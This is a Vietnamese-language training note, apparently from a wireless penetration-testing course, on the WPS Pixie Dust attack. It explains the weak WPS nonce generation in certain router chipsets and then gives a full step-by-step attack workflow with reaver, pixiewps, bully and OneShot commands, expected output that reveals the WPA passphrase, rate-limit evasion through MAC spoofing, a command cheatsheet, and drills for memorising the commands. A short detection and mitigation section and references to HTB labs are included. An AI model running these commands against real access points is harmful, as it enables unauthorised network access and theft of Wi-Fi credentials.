

> **Prerequisites**: [[01-wpa2-cryptographic-foundations|01. WPA2-Personal Cryptographic Foundations]] · [[02-80211-frame-monitor-mode|02. 802.11 Frame & Monitor Mode]]
> **Objectives**:
> - Hiểu WPS protocol M1–M7 và điểm yếu E-S1/E-S2 nonce generation
> - Thực hiện Pixie Dust attack với Reaver `-K` và pixiewps
> - Phân biệt chipsets vulnerable (Ralink, Broadcom, Realtek)
> - Recover WPA PSK từ WPS PIN

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - AP có WPS enabled (`wash -i wlan0mon` xác nhận)
> - AP chipset vulnerable: Ralink, Broadcom, hoặc Realtek (phổ biến nhất)
> - Monitor mode interface
> - WPS không bị locked (hoặc chờ lock timeout)
>
> [!tip] WPS Pixie Dust vs PIN Brute Force
> **Pixie Dust**: Offline attack — crack nonce trong giây/phút. Chỉ hoạt động với vulnerable chipsets.
> **PIN Brute Force**: Online attack — gửi 11,000 requests đến AP. Chậm (giờ) nhưng hoạt động với mọi WPS.
>
---

## Cơ chế tấn công

### WPS Protocol — M1 đến M7

![[img-06-wps-handshake.svg]]
*Hình 1: WPS M1–M7 handshake với điểm intercept Pixie Dust (E-S1, E-S2)*

WPS (Wi-Fi Protected Setup) dùng Extensible Authentication Protocol (EAP) để allow "zero-config" setup. PIN có 8 chữ số nhưng chỉ cần test ~11,000 combinations (do split verification):

- **Half 1**: 4 digits → 10,000 combinations
- **Half 2**: 3 digits → 1,000 combinations (digit thứ 8 là checksum)

**Quá trình M1–M7:**

```bash
M1 (Enrollee→Registrar): PKe (DH public key)
M2 (Registrar→Enrollee): PKr (DH pub key), Registrar Nonce (R-Nonce), Authenticator
M3 (Enrollee→Registrar): E-Hash1, E-Hash2, Authkey
    E-Hash1 = HMAC-MD5(Authkey, E-S1 || PSK1 || PKe || PKr)
    E-Hash2 = HMAC-MD5(Authkey, E-S2 || PSK2 || PKe || PKr)
M4 (Registrar→Enrollee): R-Hash1
M5 (Enrollee→Registrar): E-S1 (reveals first half PIN)
M6 (Registrar→Enrollee): R-S1 confirmation
M7 (Enrollee→Registrar): E-S2 (reveals second half PIN) → AP sends WPA PSK!
```

### Điểm yếu Pixie Dust — Nonce PRNG yếu

E-S1 và E-S2 được sinh bởi Pseudo-Random Number Generator (PRNG) của chipset. Dominique Bongard phát hiện năm 2014:

| Chipset | PRNG Weakness | Exploit |
|---------|--------------|---------|
| **Ralink** | E-S1 = E-S2 = 0x00 (all zeros) | Trivial — instant |
| **Broadcom** | `rand()` seeded với time() | Brute force timestamp seed |
| **Realtek** | Predictable seed từ timestamp | Mode 3 trong pixiewps |
| **Qualcomm** | Properly random | Không vulnerable Pixie Dust |

Với E-S1 và E-S2 đã biết, attacker có thể:
1. Tính `PSK1 = crack(E-Hash1)` — vì E-S1, PKe, PKr, Authkey đều biết
2. PSK1 = 4 digits đầu của PIN → chỉ 10,000 combinations
3. Tương tự PSK2 → 1,000 combinations
4. Tổng cộng: 11,000 offline computations → milliseconds

---

## Quy trình tấn công

**Môi trường giả định**: AP BSSID `AA:BB:CC:DD:EE:FF`, Channel 6.

**Bước 1 — Scan WPS APs với wash**

```bash
sudo wash -i wlan0mon
```

> **Expected output**:
> ```text
> BSSID              Ch  dBm  WPS  Lck  Vendor    ESSID
> AA:BB:CC:DD:EE:FF   6  -45  2.0  No   Ralink    HomeNet
```

Columns quan trọng:
- `WPS`: version (1.0, 2.0)
- `Lck`: Yes/No — WPS bị lock chưa
- `Vendor`: chipset vendor — quan trọng cho Pixie Dust

**Bước 2 — Pixie Dust với Reaver (tự động)**

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K -vv
```

Flags:
- `-K`: Enable Pixie Dust attack (gọi pixiewps tự động)
- `-vv`: Verbose — hiển thị nonces và hashes
- `-c 6`: Lock channel

> **Expected output** (Ralink — instant):
> ```text
> [+] Received M1 message
> [P] E-Nonce: d3b25a26...
> [P] PKE: c1a2...
> [+] Received M3 message
> [P] E-Hash1: 7d3e...
> [P] E-Hash2: 9f2a...
> [Pixie-Dust] [*] Mode: 1 (Ralink)
> [Pixie-Dust] [*] E-S1: 00:00:00:00:...:00 (all zeros!)
> [Pixie-Dust] [*] E-S2: 00:00:00:00:...:00
> [Pixie-Dust] [+] WPS pin: 12345678
> [+] WPA PSK: 'MyWiFiPassword'
> [+] AP SSID: 'HomeNet'
```

**Bước 3 — Nếu Reaver tự động thất bại — Manual pixiewps**

```bash
# Chạy Reaver với verbose để lấy values
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vvv
# Ctrl+C sau khi nhận M3

# Ghi lại: PKE, PKR, E-Hash1, E-Hash2, E-Nonce, Authkey

# Chạy pixiewps thủ công
pixiewps \
    -e <pke_hex> \
    -r <pkr_hex> \
    -s <e_hash1_hex> \
    -z <e_hash2_hex> \
    -a <authkey_hex> \
    -n <e_nonce_hex>
```

**Bước 4 — Dùng PIN để lấy WPA PSK**

```bash
# Nếu pixiewps tìm được PIN nhưng Reaver chưa lấy PSK:
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12345678
```

> **Expected output**:
> ```text
> [+] Pin found: 12345678
> [+] WPA PSK: 'MyWiFiPassword'
```

**Bước 5 — Dùng Bully (alternative)**

```bash
# Bully Pixie Dust
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -d -v 3

# Bully với PIN recovered
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12345678
```

---

## Biến thể & Bypass

### Realtek mode 3 (timestamp brute force)

```bash
# pixiewps với time range (năm 2020–2025)
pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> -a <authkey> -n <e-nonce> \
    --mode 3 --start 01/2020 --end 12/2025
```

### oneshot.py (automation tool)

```bash
# Clone và run
git clone https://github.com/nikita-yfh/OneShot-C.git
cd OneShot-C && make
sudo ./oneshot.py -i wlan0mon -b AA:BB:CC:DD:EE:FF --pixie-dust
```

### Small DH keys (bypass cho một số AP)

```bash
# Dùng small DH keys để AP không cần PKr
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K -S -vv
# CẢNH BÁO: Không dùng -S với Realtek AP
```

### Rate limiting bypass

```bash
# Tăng delay giữa các attempts
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K -d 3 -vv
# -d 3: 3 giây delay

# Thay đổi MAC address
sudo macchanger -r wlan0mon
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K -vv
```

---

## Cây quyết định



---

## Command Cheatsheet

**Scan WPS**

```bash
sudo wash -i wlan0mon
sudo wash -i wlan0mon -C  # ignore FCS errors
sudo airodump-ng --wps wlan0mon  # alternative
```

**Pixie Dust attack**

```bash
# Reaver tự động (recommended)
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -K -vv

# Reaver với small DH keys (không dùng với Realtek)
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -K -S -vv

# Bully alternative
sudo bully wlan0mon -b <BSSID> -c <CH> -d -v 3
```

**Manual pixiewps**

```bash
pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> \
         -a <authkey> -n <e-nonce>

# Mode 3 (Realtek timestamp brute)
pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> \
         -a <authkey> -n <e-nonce> --mode 3 --start 01/2022 --end 01/2026
```

**Recover PSK với PIN**

```bash
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -p <PIN>
sudo bully wlan0mon -b <BSSID> -c <CH> -p <PIN>
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — WPS scan**
Mục tiêu: scan và đọc output trong dưới 30 giây.

```bash
sudo wash -i wlan0mon
# Đọc: BSSID, Lck=No, Vendor, ESSID
```

Luyện cho đến khi: đọc output ngay lập tức, không cần pause.

**Drill 2 — Reaver Pixie Dust command**
Mục tiêu: gõ đúng command với đủ flags.

```bash
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -K -vv
```

Luyện cho đến khi: gõ trong dưới 5 giây.

**Drill 3 — pixiewps manual (nâng cao)**
Mục tiêu: biết đúng flag cho mỗi value.

```text
-e: PKE (Enrollee public key)
-r: PKR (Registrar public key)
-s: E-Hash1
-z: E-Hash2
-a: Authkey
-n: E-Nonce
```

Luyện cho đến khi: viết pixiewps command đầy đủ không nhìn help.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **AP side**: Nhiều EAP exchanges bất thường (không complete) → WPS session logs
> **Network traffic**: EAP-Start floods, incomplete M1–M3 sequences
> **WIDS**: Reaver/Bully tool signatures trong traffic patterns
>
> [!danger] Mitigation
> **Disable WPS ngay lập tức** — đây là biện pháp duy nhất hiệu quả:
> - Vào router admin page → Wireless Settings → WPS → Disable
> - Chú ý: một số firmware "disable" WPS nhưng thực tế vẫn respond (Linksys)
> - Verify bằng `wash -i wlan0mon` sau khi disable
> - Nếu cần WPS: update firmware đến version fix Pixie Dust (nếu có)
>
---

## Lab Thực hành

| Platform | Machine | Technique |
|----------|---------|---------|
| HTB | **WifineticTwo** (Retired) | Pixie Dust attack với oneshot trên OpenWrt |
| HTB | **Wifinetic** (Retired) | WPS với Reaver, cap_net_raw |
| Local VM | mac80211_hwsim + hostapd với WPS | Lab setup với virtual AP |
| Local VM | Kali + old router | Real hardware Pixie Dust |

---

## Field Manual Entry

> [!abstract] WPS Pixie Dust Attack — Quick Reference
> **Điều kiện**: WPS enabled, chipset Ralink/Broadcom/Realtek, Lck=No
> **Lệnh nhanh**: `reaver -i wlan0mon -b <BSSID> -c <CH> -K -vv`
> **Full flow**: `wash -i wlan0mon` → confirm WPS+vendor → `reaver -K` → PIN recovered → `reaver -p <PIN>` → WPA PSK
> **Look for**: `[+] WPS pin: XXXXXXXX` trong output — thường milliseconds đến vài phút
> **Detection**: Incomplete EAP exchanges; WIDS alert
> **Ref**: [[06-wps-pixie-dust-attack|06. WPS Pixie Dust Attack]]
>